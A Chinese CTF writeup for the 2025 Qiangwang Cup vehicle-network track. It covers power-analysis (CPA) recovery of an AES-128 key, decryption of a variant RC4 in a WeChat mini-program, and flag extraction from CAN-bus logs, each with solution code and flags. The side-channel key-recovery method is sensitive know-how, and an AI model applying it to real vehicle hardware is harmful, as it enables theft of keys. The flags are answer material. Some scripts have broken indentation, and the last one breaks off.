# 2025 强网杯 车联网赛道writeup-先知社区

> **来源**: https://xz.aliyun.com/news/19234  
> **文章ID**: 19234

---

# Crypto

## 强网-SCAAES

AES 侧信道攻击（TRS 数据集复现）

**背景介绍**  
安全研究人员在某品牌汽车硬件安全测试中采集了用于实现AES的芯片在运行时的功耗轨迹，确认可通过侧信道攻击恢复算法密钥。本文档对给定TRS数据集进行复现分析，最终恢复出AES-128主密钥。

**数据集说明**

* **文件**：AES128.trs
* **轨迹数**：ntraces=10000
* **每条样本数**：nsamples=500
* **编码**：coding=1
* **附带数据长度**：32字节（16B明文 + 16B密文）
* **记录布局**：每条记录包含数据块（明文16B+密文16B）随后紧跟500个功耗采样点

**方法概述**  
采用相关功耗分析（CPA）在第一轮SubBytes阶段建立泄漏模型：

* **预测量**：H=HW(SBox(PT[i]⊕k))，其中HW为汉明重量
* **密钥恢复**：对每个字节遍历k∈[0,255]，计算预测量与功耗样本间的皮尔逊相关系数，选取绝对值最大者

**关键实现步骤**

1. 解析TRS头，逐条读取明文、密文与功耗采样
2. 对功耗采样做按列标准化（去均值/标准差归一）
3. 逐字节枚举256个密钥猜测，构造预测泄漏（汉明重量）
4. 计算预测泄漏与每个采样点的相关系数，寻找峰值，并记录该猜测的最佳相关与对应采样点（POI）
5. 拼接得到16字节主密钥，用标准AES-128对多条样本进行明文→密文校验

**结果与验证**

（1）恢复出的 AES-128 主密钥为： hex：ccaeeed667cd6c04c7abccc26dc793f1

flag（按要求大写）：flag{CCAEEED667CD6C04C7ABCCC26DC793F1}

（附）最后一轮轮密钥：fab3f9784af8ffa45036a473539d04c6

（2）随机抽取 50 条样本进行验证，明文加密得到的密文与数据集密文逐条一致：通过。   
（3）功耗曲线示意：   


（4）相关曲线示意（Byte0）：



图2 字节0的最佳猜测在时间轴上的 |corr| 峰值（POI 对应的采样点处出现显著峰）

​

**六、关键代码（节选）**

```
# 解析TRS文件头（辅助函数）
def parse_header(f):
    """解析TRS文件头，返回头信息和数据偏移量"""
    header = {}
    offset = 0
    # TRS文件头解析逻辑
    # 读取各种标签和长度信息
    # ...
    return header, offset

# 标准AES-128加密实现
def aes128_encrypt_block(plaintext, key):
    """AES-128加密单块数据"""
    # 实现AES的SubBytes、ShiftRows、MixColumns、AddRoundKey等操作
    # ...
    return ciphertext

# 主分析流程
path = "AES128.trs"

# 解析TRS并装载数据
with open(path, "rb") as f:
    header, offset = parse_header(f)
    ntraces = int.from_bytes(header[0x41], "little")
    nsamples = int.from_bytes(header[0x42], "little")
    dlen = int.from_bytes(header[0x44], "little")
    
    # 初始化数据数组
    pts = np.empty((ntraces, 16), dtype=np.uint8)
    cts = np.empty((ntraces, 16), dtype=np.uint8)
    traces = np.empty((ntraces, nsamples), dtype=np.uint8)
    
    # 读取所有轨迹数据
    with open(path, "rb") as f:
        f.seek(offset)
        for i in range(ntraces):
            d = f.read(dlen)
            pts[i] = np.frombuffer(d[:16], dtype=np.uint8)  # 明文
            cts[i] = np.frombuffer(d[16:], dtype=np.uint8)  # 密文
            traces[i] = np.frombuffer(f.read(nsamples), dtype=np.uint8)  # 功耗轨迹

# CPA攻击（第一轮SubBytes模型）
# 预计算汉明重量表
HW = np.array([bin(x).count("1") for x in range(256)], dtype=np.uint8)
SBOX_np = np.array(SBOX, dtype=np.uint8)

# 功耗轨迹标准化处理
tr = traces.astype(np.float32)
tr -= tr.mean(axis=0, keepdims=True)  # 去均值
std = tr.std(axis=0, ddof=1, keepdims=True)
std[std == 0] = 1.0  # 避免除零
tr /= std  # 归一化

# 逐字节进行相关功耗分析
best_key = []
for b in range(16):  # 遍历16个字节位置
    p = pts[:, b]  # 当前字节的所有明文
    
    # 构造预测泄漏矩阵 (ntraces × 256)
    preds = HW[SBOX_np[np.bitwise_xor(p[:, None], np.arange(256, dtype=np.uint8))]].astype(np.float32)
    
    # 预测值标准化
    preds -= preds.mean(axis=0, keepdims=True)
    ps = preds.std(axis=0, ddof=1, keepdims=True)
    ps[ps == 0] = 1.0
    preds /= ps
    
    # 计算相关系数矩阵 (256 × nsamples)
    corr = (preds.T @ tr) / (len(p) - 1)
    
    # 找到相关性最大的密钥猜测
    g = int(np.abs(corr).max(axis=1).argmax())
    best_key.append(g)

# 格式化恢复的密钥
rec_key_hex = ''.join(f'{x:02x}' for x in best_key)
print(f"恢复的主密钥: {rec_key_hex}")

# 密钥验证
ok = True
for i in [0, 1234, 4321, 9999]:  # 随机选择样本验证
    pred = aes128_encrypt_block(list(pts[i]), best_key)
    if pred != list(cts[i]):
        ok = False
        break

print('验证结果:', ok)
```

**实验总结**

* **本数据集在第一轮SubBytes上拥有稳定的线性泄漏（HW模型），CPA可快速恢复主密钥**
* **归一化与批量矩阵运算可显著加速计算；无需逐点循环**
* **通过标准AES-128实现对多条样本检验，确保密钥正确无误**

**​**

**参考资料**

1. **Kocher et al., Differential Power Analysis, CRYPTO 1999**
2. **Brier et al., Correlation Power Analysis with a Leakage Model, CHES 2004**
3. **Riscure TRS file format (TraceSet) 说明**

**​**

# Reverse

## 强网-applet

题目是微信小程序逆向，这个没加密，直接文本编辑器分析  
先扔给AI找到关键函数



思路：因为 RC4 是流加密，这里看起来是逐字节异或，并且还额外异或了 k%256（位置索引）。 我们可以尝试已知明文攻击，但这里没有已知的 VIN 和密文对应关系，只能暴力破解或者 逆向加密过程 Exp 运行这个脚本，它会：将 correctEncrypted 从 16 进制转换为字节数组使用相同的密钥 "Z1X3Y4E5Z8V2A6H6" 进行 RC4 解密出解密得到的VIN验证解密是否正确   
  
解密代码：

```
function decryptVin() {
    const correctEncrypted = "7AF2C74EAD5C2D4505E94B820275CA8C52";
    const key = "Z1X3Y4E5Z8V2A6H6";
    
    // 将16进制字符串转换为字节数组
    function hexToBytes(hex) {
        const bytes = [];
        for (let i = 0; i < hex.length; i += 2) {
            bytes.push(parseInt(hex.substr(i, 2), 16));
        }
        return bytes;
    }
    
    // 字符串转字节数组
    function stringToBytes(str) {
        let bytes = [];
        for (let i = 0; i < str.length; i++) {
            bytes.push(str.charCodeAt(i));
        }
        return bytes;
    }
    
    // 字节数组转字符串
    function bytesToString(bytes) {
        let str = '';
        for (let i = 0; i < bytes.length; i++) {
            str += String.fromCharCode(bytes[i]);
        }
        return str;
    }
    
    // 变种RC4解密（与加密过程相同，因为XOR是对称的）
    function variantRC4Decrypt(cipherBytes, key) {
        let S = Array.from({length: 256}, (_, i) => i);
        let j = 0;
        let keyBytes = stringToBytes(key);
        
        // RC4 KSA (Key Scheduling Algorithm) - 正向
        for (let i = 0; i < 256; i++) {
            j = (j + S[i] + keyBytes[i % keyBytes.length]) % 256;
            [S[i], S[j]] = [S[j], S[i]];
        }
        
        // 额外的反向KSA（与加密相同）
        j = 0;
        for (let i = 255; i >= 0; i--) {
            j = (j + S[i] + keyBytes[i % keyBytes.length]) % 256;
            [S[i], S[j]] = [S[j], S[i]];
        }
        
        let i = 0;
        j = 0;
        let output = [];
        
        // 生成密钥流并解密
        for (let k = 0; k < cipherBytes.length; k++) {
            i = (i + 1) % 256;
            j = (j + S[i]) % 256;
            [S[i], S[j]] = [S[j], S[i]];
            
            let t = (S[i] + S[j]) % 256;
            let K = S[(S[i] + S[j] + S[t]) % 256];
            
            // 解密：cipher ^ K ^ position = plain
            let decryptedByte = cipherBytes[k] ^ K ^ (k % 256);
            output.push(decryptedByte);
        }
        
        return output;
    }
    
    // 执行解密
    const cipherBytes = hexToBytes(correctEncrypted);
    const decryptedBytes = variantRC4Decrypt(cipherBytes, key);
    const vin = bytesToString(decryptedBytes);
    
    console.log("解密得到的 VIN:", vin);
    console.log("Flag格式: FLAG{" + vin + "}");
    
    // 验证解密是否正确
    function variantRC4Encrypt(input, key) {
        let S = Array.from({length: 256}, (_, i) => i);
        let j = 0;
        let keyBytes = stringToBytes(key);
        
        for (let i = 0; i < 256; i++) {
            j = (j + S[i] + keyBytes[i % keyBytes.length]) % 256;
            [S[i], S[j]] = [S[j], S[i]];
        }
        
        j = 0;
        for (let i = 255; i >= 0; i--) {
            j = (j + S[i] + keyBytes[i % keyBytes.length]) % 256;
            [S[i], S[j]] = [S[j], S[i]];
        }
        
        let i_val = 0;
        j = 0;
        let output = [];
        let inputBytes = stringToBytes(input);
        
        for (let k = 0; k < inputBytes.length; k++) {
            i_val = (i_val + 1) % 256;
            j = (j + S[i_val]) % 256;
            [S[i_val], S[j]] = [S[j], S[i_val]];
            
            let t = (S[i_val] + S[j]) % 256;
            let K = S[(S[i_val] + S[j] + S[t]) % 256];
            
            let encryptedByte = inputBytes[k] ^ K ^ (k % 256);
            output.push(encryptedByte);
        }
        
        // 字节数组转16进制字符串
        function bytesToHex(bytes) {
            let hex = '';
            for (let i = 0; i < bytes.length; i++) {
                let byte = bytes[i];
                let char1 = Math.floor(byte / 16);
                let char2 = byte % 16;
                hex += "0123456789ABCDEF"[char1] + "0123456789ABCDEF"[char2];
            }
            return hex;
        }
        
        return bytesToHex(output);
    }
    
    const reEncrypted = variantRC4Encrypt(vin, key);
    console.log("重新加密验证:", reEncrypted);
    console.log("验证结果:", reEncrypted === correctEncrypted ? "成功" : "失败");
    
    return vin;
}

// 运行解密
decryptVin();
```

将 correctEncrypted 从16进制转换为字节数组

使用相同的密钥 "Z1X3Y4E5Z8V2A6H6" 进行RC4解密

输出解密得到的VIN

验证解密是否正确  
运行得到flag  


FLAG{L0J6Q0P7H3E2I5U6H}

​

# Misc

## 强网-cancanneedflag

题目给了日志文件和一个加密压缩包

但这是伪加密，010editor打开修改一下字节恢复一下



14 00 09 00改成14 00 00 00 成功得到信号映射表



利用了 CAN 信号映射表 和 CAN 日志数据 之间的对应关系，并通过模式识别提取出隐藏在信号数据中 的 flag 字符串

1. 信号映射表解析（signal\_map.csv）   
   CSV 文件中定义了多个信号，例如：

```
signal,can_id,byte,len,type
 speed,100,0,2,uint16
 rpm,100,2,2,uint16
 ...
 sig_1,101,1,1,uint8
 sig_2,102,2,1,uint8
 ...
```

并且发现sig\_1-sig\_19是一种信号类型，sig\_20-sig\_39是另一种信号类型，sig\_40-sig\_59是第三种信号 类型，以此类推,猜测不同的类型藏了不同数据） 每个 sig\_\* 信号都对应一个 CAN ID 和该帧数据中的某个字节位置（ byte ）。 这些 sig\_\* 信号都是 uint8 类型，即一个字节，可以表示 0–255 的整数。



3. 提取逻辑

我们选择全部提取sig\_1-sig\_72的最后一个值(即上面说的can发送的数据），去看看能不能得到flag或者 与其有关的信息 提取脚本如下

```
#!/usr/bin/env python3
 """
 CAN数据提取脚本 - 提取所有信号的所有数据到文件
"""
 import re, csv, sys
 from collections import defaultdict
 CAN_LINE_RE = re.compile(r'\(([\d.]+)\)\s+can0\s+([0-9a-fA-F]+)#([0-9a-fA-F]+)')
 def parse_signal_map(path='signal_map.csv'):
 """解析信号映射表"""
 signals = {}
 with open(path, 'r', encoding='utf-8') as f:
 r = csv.DictReader(f)
 for row in r:
 signals[row['signal']] = {
 'can_id': int(row['can_id'], 16),
 'byte': int(row['byte']),
 'len': int(row['len']),
 'type': row['type']
 }
    return signals
 def load_frames(path):
    """加载CAN数据帧"""
    frames = []
    with open(path, 'r', encoding='utf-8') as f:
        for line in f:
            m = CAN_LINE_RE.match(line.strip())
            if not m:
                continue
            ts = float(m.group(1))
            cid = int(m.group(2), 16)
            data = bytes.fromhex(m.group(3))
            frames.append((ts, cid, data))
    return frames
 def extract_all_signals_data(frames, signals):
    """提取所有信号的所有数据"""
    signal_data = defaultdict(list)
    
    for ts, cid, data in frames:
        for sig_name, info in signals.items():
            if cid == info['can_id'] and len(data) > info['byte']:
                byte_pos = info['byte']
                length = info['len']
                
                # 提取值（根据长度）
                if length == 1:
                    value = data[byte_pos]
                elif length == 2:
                    value = data[byte_pos] | (data[byte_pos+1] << 8)
                else:
                    value = data[byte_pos]
                
                signal_data[sig_name].append((ts, value))
    
    return signal_data
 def main():
    if len(sys.argv) < 2:
        print("用法: python extract_data.py canlog.txt")
        sys.exit(1)
    
    canlog = sys.argv[1]
    
    signals = parse_signal_map()
    frames = load_frames(canlog)
    signal_data = extract_all_signals_data(frames, signals)
    
    # 输出到文件
    with open('all_signal_data.txt', 'w', encoding='utf-8') as f:
        for sig_name in sorted(signal_data.keys()):
            f.write(f"
信号: {sig_name}
")
            for ts, value in signal_data[sig_name]:
                f.write(f"  时间: {ts:.6f}, 值: {value} (0x{value:02x})
")
if __name__ == "__main__":
 main()
```

可以看到





信号基本上都是单一数据或多少都有可打印的，猜测这些数据是跟flag有关系或者藏在了某一个通道里 面，写个脚本统一提取一下



去重（或者统计通道内出现的最多的那个字符也可以）

```
#!/usr/bin/env python3
 """
 CAN数据提取脚本 - 提取所有信号的所有数据到文件
"""
 import re, csv, sys
 from collections import defaultdict
 CAN_LINE_RE = re.compile(r'\(([\d.]+)\)\s+can0\s+([0-9a-fA-F]+)#([0-9a-fA-F]+)')
def parse_signal_map(path='signal_map.csv'):
    """解析信号映射表"""
    signals = {}
    with open(path, 'r', encoding='utf-8') as f:
        r = csv.DictReader(f)
        for row in r:
            signals[row['signal']] = {
                'can_id': int(row['can_id'], 16),
                'byte': int(row['byte']),
                'len': int(row['len']),
                'type': row['type']
            }
    return signals
 def load_frames(path):
    """加载CAN数据帧"""
    frames = []
    with open(path, 'r', encoding='utf-8') as f:
        for line in f:
            m = CAN_LINE_RE.match(line.strip())
            if not m:
                continue
            ts = float(m.group(1))
            cid = int(m.group(2), 16)
            data = bytes.fromhex(m.group(3))
            frames.append((ts, cid, data))
    return frames
 def extract_all_signals_data(frames, signals):
    """提取所有信号的所有数据"""
    signal_data = defaultdict(list)
    
    for ts, cid, data in frames:
        for sig_name, info in signals.items():
            if cid == info['can_id'] and len(data) > info['byte']:
                byte_pos = info['byte']
                length = info['len']
                
                # 提取值（根据长度）
                if length == 1:
                    value = data[byte_pos]
                elif length == 2:
                    value = data[byte_pos] | (data[byte_pos+1] << 8)
                else:
                    value = data[byte_pos]
                
                signal_data[sig_name].append(value)
    
    return signal_data
 def main():
    if len(sys.argv) < 2:
        print("用法: python extract_data.py canlog.txt")
        sys.exit(1)
 
    
    canlog = sys.argv[1]
    
    signals = parse_signal_map()
    frames = load_frames(canlog)
    signal_data = extract_all_signals_data(frames, signals)
    
    # 输出到文件
    with open('all_signal_data.txt', 'w', encoding='utf-8') as f:
        # 按信号数字大小排序
        sorted_signals = sorted(signal_data.keys(), key=lambda x: 
int(x.split('_')[1]) if x.startswith('sig_') else 0)
        
        for sig_name in sorted_signals:
            # 将所有值转换为ASCII字符并去重
            ascii_chars = []
            seen = set()
            for value in signal_data[sig_name]:
                if 0 <= value <= 255:
                    char = chr(value)
                    if char not in seen:
                        ascii_chars.append(char)
                        seen.add(char)
                else:
                    char = '?'
                    if char not in seen:
                        ascii_chars.append(char)
                        seen.add(char)
            
            values_str = ''.join(ascii_chars)
            f.write(f"{sig_name}:{values_str}
")
 if __name__ == "__main__":
    main()
```



可以看到很明显的flag格式 都在每个信号传输的数据的最后一位 故flag为 flag{V3h1cle\_N3tw0rk1ng\_53cu71ty}

另外，附上爆破脚本

```
#!/usr/bin/env python3
 """
直接flag提取脚本 - 通过模式匹配找到真正的flag
 """
 import re, csv, sys
 from collections import defaultdict
 CAN_LINE_RE = re.compile(r'\(([\d.]+)\)\s+can0\s+([0-9a-fA-F]+)#([0-9a-fA-F]+)')
 def parse_signal_map(path='signal_map.csv'):
 signals = {}
 with open(path, 'r', encoding='utf-8') as f:
 r = csv.DictReader(f)
 for row in r:
 signals[row['signal']] = {
 'can_id': int(row['can_id'], 16),
 'byte': int(row['byte']),
 'len': int(row['len']),
 'type': row['type']
 }
 return signals
 def load_frames(path):
 frames = []
    with open(path, 'r', encoding='utf-8') as f:
        for line in f:
            m = CAN_LINE_RE.match(line.strip())
            if not m:
                continue
            ts = float(m.group(1))
            cid = int(m.group(2), 16)
            data = bytes.fromhex(m.group(3))
            frames.append((ts, cid, data))
    return frames
 def extract_all_signals_last_values(frames, signals):
    """提取所有信号的最后一个值"""
    last_values = {}
    
    for ts, cid, data in frames:
        for sig_name, info in signals.items():
            if cid == info['can_id'] and len(data) > info['byte']:
                byte_pos = info['byte']
                value = data[byte_pos]
                last_values[sig_name] = value
    
    return last_values
 def find_flag_pattern(last_values):
    """在所有信号中寻找flag模式"""
    # 获取所有sig信号并按数字排序
    sig_signals = []
    for sig_name in last_values.keys():
        if sig_name.startswith('sig_'):
            try:
                idx = int(sig_name.split('_')[1])
                sig_signals.append((idx, sig_name))
            except:
                continue
    
    sig_signals.sort()
    
    # 尝试不同的长度和起始位置
    for start_idx in range(len(sig_signals)):
        for length in range(20, 50):  # flag长度通常在20-50之间
            if start_idx + length > len(sig_signals):
                continue
                
            # 提取这个区间的字符
            chars = []
            for i in range(start_idx, start_idx + length):
                idx, sig_name = sig_signals[i]
                val = last_values[sig_name]
                if 32 <= val <= 126:
                    chars.append(chr(val))
                else:
                    break
            
            if len(chars) == length:
                candidate = ''.join(chars)
                # 检查是否符合flag格式
                if re.match(r'flag\{[a-zA-Z0-9_!@#$%^&*()\-+= ]+\}', candidate):
                    return candidate
    
    return None
 def brute_force_flag(last_values):
    """暴力尝试所有可能的flag组合"""
    sig_signals = []
    for sig_name in last_values.keys():
        if sig_name.startswith('sig_'):
            try:
                idx = int(sig_name.split('_')[1])
                sig_signals.append((idx, sig_name))
            except:
                continue
    
    sig_signals.sort()
    
    # 构建所有可能的字符串
    all_chars = []
    for idx, sig_name in sig_signals:
        val = last_values[sig_name]
        if 32 <= val <= 126:
            all_chars.append(chr(val))
        else:
            all_chars.append('?')
    
    full_string = ''.join(all_chars)
    
    # 在完整字符串中寻找flag模式
    flag_pattern = re.search(r'flag\{[^}]+\}', full_string)
    if flag_pattern:
        return flag_pattern.group(0)
    
    return None
 def main():
    if len(sys.argv) < 2:
        print("Usage: python extract_flag.py canlog.txt")
        sys.exit(1)
        
    canlog = sys.argv[1]
    
    try:
        signals = parse_signal_map('signal_map.csv')
    except FileNotFoundError:
        return
        
    frames = load_frames(canlog)
    if not frames:
        return
    # 提取所有信号的最后一个值
    last_values = extract_all_signals_last_values(frames, signals)
    
    # 方法1: 模式匹配
    flag1 = find_flag_pattern(last_values)
    
    # 方法2: 暴力搜索
